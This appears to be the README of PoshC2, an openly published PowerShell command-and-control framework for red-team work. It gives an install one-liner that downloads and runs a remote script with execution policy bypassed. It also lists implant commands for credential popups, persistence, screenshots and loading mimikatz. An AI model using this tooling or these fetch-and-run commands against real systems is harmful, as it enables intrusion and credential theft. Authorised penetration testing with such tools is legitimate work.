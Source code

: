 Powershell C2:
================
Released as an open source project by Nettitude UK Limited - http://www.nettitude.com

Developed and maintained by @benpturner & @davehardy20

Requires only Powershell v2 on both server and client

[[images/C2-server-1.PNG]]

Install:
================
powershell -exec bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/nettitude/PoshC2/master/C2-Installer.ps1')"

Run a new C2 Server:
==============================================
Run Start-C2-Server shortcut as Administrator (Windows 7,8 & 10)

Connect an existing database with valid implants:
=================================================
Run Restart-C2Server shortcut as Administrator (Windows 7,8 & 10)

**Very important if you want legacy payloads to re-connect to your C2 server**

Using the Implant-Handler:
===========================
Select the implant ID, then issue commands, e.g. 1. 
For multiple implants, select with comma seperator, e.g. 1,2,3

PS > Whoami

PS > Beacon 60

PS > Get-Service

PS > CreatePayloadProxy

PS > Cred-Popper

PS > Install-Persistence

PS > Remove-Persistence

PS > WMICommand -username domain\user -password pass -command "echo 1 > c:\test.txt"

PS > Get-Screenshot

PS > Invoke-AllChecks

PS > LoadModule invoke-mimikatz.ps1

PS > Get-RecentFiles

PS > back (to use another implant from the database)

